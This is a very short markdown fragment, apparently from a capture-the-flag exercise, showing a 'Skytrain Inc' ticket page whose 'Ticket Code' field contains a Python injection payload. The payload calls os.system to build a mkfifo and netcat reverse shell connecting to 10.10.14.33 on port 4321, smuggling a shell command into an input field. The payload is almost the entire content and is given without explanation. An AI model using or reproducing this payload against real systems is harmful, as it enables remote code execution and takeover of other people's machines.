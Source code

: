 # Skytrain Inc
## Ticket to Leonardo
__Ticket Code:__
**4+__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.33 4321 >/tmp/f')
